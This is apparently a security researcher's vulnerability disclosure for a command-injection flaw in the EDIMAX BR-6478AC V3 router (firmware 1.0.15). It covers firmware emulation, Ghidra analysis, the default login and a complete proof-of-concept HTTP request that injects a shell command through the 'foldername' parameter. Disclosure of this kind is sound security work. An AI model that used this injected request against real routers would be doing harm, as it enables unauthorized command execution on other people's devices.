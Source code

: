 # EDIMAX RCE
**description**: a remote-command-execution vulnerability was found on EDIMAX BR-6478AC V3 via the FUN_0045f5c4 function and foldername in /bin/boa


## Firmware
**brand**:edimax   

**product**:AC1200 Wave 2 Dual-Band Gigabit Router   

**version**:BR-6478AC V3 1.0.15  

The firmware can be downloaded from this website[1] and using FirmAE to simulate the router environment.   
The command is 
```
sudo ./run.sh -d edimax ../Desktop/FIRWARE/BR-6478AC_v3_1.0.15.bin 
```
The result of the simulation is as follows and the defalut username is **admin** and default is **1234**: 
![alt text](images/simulate.png)

using ghidra we can know the action is formDiskCreateShare
![alt text](./images/action.png)
and the relate web page is as follows and url of page is http://192.168.2.1/disksharefolder.htm:
![alt text](images/relate_page.png)

## analyze
to finish the command inject should add a account at first in this url:http://192.168.2.1/accountmng.htm.  
![alt text](./images/page.png)
otherwise it will show that "Owner should not be NULL!"
![alt text](./images/analyze1.png)
after creater a owner we can start the command injection
Using ghidra we can know that the post parameter "foldername" will be sprintf as the second input parameter which will be executed
![alt text](images/analyze.png)
![alt text](images/analyze2.png)

The details of the function as follows:

**addr**:0045f9ec  
**function**: FUN_0045f5c4
**parameter**:foldername


# poc
Burp Suite change the packet as follows
```
POST /boafrm/formDiskCreateShare HTTP/1.1

Host: 192.168.2.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 172

Origin: http://192.168.2.1

Connection: close

Referer: http://192.168.2.1/disksharefolder.htm

Cookie: webuicookie=16041634271804289383

Upgrade-Insecure-Requests: 1



folderpath=%2Fvar%2Ftmp%2Fusb%2Fsda1&samba_user1=ON&permission=0&Add_Share_Folder=Apply+Changes&submit_url=%2Fdisksharefolder.htm&foldername=a"\necho 123 > /tmp/poc.txt \\"
```
the result of POC is as follows, you can find the /tmp/poc.txt was created after poc
![alt text](images/poc.png)

[1]:https://www.edimax.com/edimax/merchandise/merchandise_detail/data/edimax/global/home_legacy_wireless_routers/br-6478ac_v3